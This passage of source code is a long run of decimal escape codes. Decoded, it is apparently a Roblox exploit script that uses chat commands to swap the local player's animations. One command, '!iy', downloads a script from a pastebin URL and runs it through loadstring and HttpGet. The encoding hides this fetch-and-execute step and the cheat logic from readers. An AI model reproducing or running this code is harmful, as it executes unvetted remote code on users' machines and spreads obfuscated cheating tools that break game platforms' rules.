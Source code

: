 \54\49\48\52\55\48\54\34\10\65\110\105\109\97\116\101\46\102\97\108\108\46\70\97\108\108\65\110\105\109\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\54\49\54\49\48\56\48\48\49\34\10\103\97\109\101\46\80\108\97\121\101\114\115\46\76\111\99\97\108\80\108\97\121\101\114\46\67\104\97\114\97\99\116\101\114\46\72\117\109\97\110\111\105\100\46\74\117\109\112\32\61\32\102\97\108\115\101\10\119\97\105\116\40\53\41\10\101\110\100\59\10\9\101\108\115\101\105\102\32\99\104\116\58\109\97\116\99\104\40\34\47\101\32\114\111\98\111\116\34\41\32\116\104\101\110\10\119\104\105\108\101\32\116\114\117\101\32\100\111\10\108\111\99\97\108\32\65\110\105\109\97\116\101\32\61\32\103\97\109\101\46\80\108\97\121\101\114\115\46\76\111\99\97\108\80\108\97\121\101\114\46\67\104\97\114\97\99\116\101\114\46\65\110\105\109\97\116\101\10\65\110\105\109\97\116\101\46\105\100\108\101\46\65\110\105\109\97\116\105\111\110\49\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\54\49\54\48\56\56\50\49\49\34\10\65\110\105\109\97\116\101\46\105\100\108\101\46\65\110\105\109\97\116\105\111\110\50\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\54\49\54\48\56\57\53\53\57\34\10\65\110\105\109\97\116\101\46\119\97\108\107\46\87\97\108\107\65\110\105\109\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\54\49\54\48\57\53\51\51\48\34\10\65\110\105\109\97\116\101\46\114\117\110\46\82\117\110\65\110\105\109\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\54\49\54\48\57\49\53\55\48\34\10\65\110\105\109\97\116\101\46\106\117\109\112\46\74\117\109\112\65\110\105\109\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\54\49\54\48\57\48\53\51\53\34\10\65\110\105\109\97\116\101\46\99\108\105\109\98\46\67\108\105\109\98\65\110\105\109\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\54\49\54\48\56\54\48\51\57\34\10\65\110\105\109\97\116\101\46\102\97\108\108\46\70\97\108\108\65\110\105\109\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\54\49\54\48\56\55\48\56\57\34\10\103\97\109\101\46\80\108\97\121\101\114\115\46\76\111\99\97\108\80\108\97\121\101\114\46\67\104\97\114\97\99\116\101\114\46\72\117\109\97\110\111\105\100\46\74\117\109\112\32\61\32\102\97\108\115\101\10\119\97\105\116\40\53\41\10\101\110\100\59\10\9\101\108\115\101\105\102\32\99\104\116\58\109\97\116\99\104\40\34\33\105\121\34\41\32\116\104\101\110\10\9\9\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\72\116\116\112\71\101\116\40\40\39\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\116\122\84\88\109\89\102\50\39\41\44\116\114\117\101\41\41\40\41\59\10\9\101\108\115\101\105\102\32\99\104\116\58\109\97\116\99\104\40\34\47\101\32\101\108\100\101\114\34\41\32\116\104\101\110\10\119\104\105\108\101\32\116\114\117\101\32\100\111\10\108\111\99\97\108\32\65\110\105\109\97\116\101\32\61\32\103\97\109\101\46\80\108\97\121\101\114\115\46\76\111\99\97\108\80\108\97\121\101\114\46\67\104\97\114\97\99\116\101\114\46\65\110\105\109\97\116\101\10\65\110\105\109\97\116\101\46\105\100\108\101\46\65\110\105\109\97\116\105\111\110\49\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\56\52\53\51\57\55\56\57\57\34\10\65\110\105\109\97\116\101\46\105\100\108\101\46\65\110\105\109\97\116\105\111\110\50\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\56\52\53\52\48\48\53\50\48\34\10\65\110\105\109\97\116\101\46\119\97\108\107\46\87\97\108\107\65\110\105\109\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\56\52\53\52\48\51\56\53\54\34\10\65\110\105\109\97\116\101\46\114\117\110\46\82\117\110\65\110\105\109\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\56\52\53\51\56\54\53\48\49\34\10\65\110\105\109\97\116\101\46\106\117\109\112\46\74\117\109\112\65\110\105\109\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\56\52\53\51\57\56\56\53\56\34\10\65\110\105\109\97\116\101\46\99\108\105\109\98\46\67\108\105\109\98\65\110\105\109\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\56\52\53\51\57\50\48\51\56\34\10\65\110\105\109\97\116\101\46\102\97\108\108\46\70\97\108\108\65\110\105\109\46\65\110\105\109\97\116\105\111\110\73\100\32\61\32\34\104\116\116\112\58\47\47\119\119\119\46\114\111\98\108\111\120\46\99\111\109\47\97\115\115\101\116\47\63\105\100\61\56\52\53\51\57\54\48\52\56\34\10\103\97\109\101\4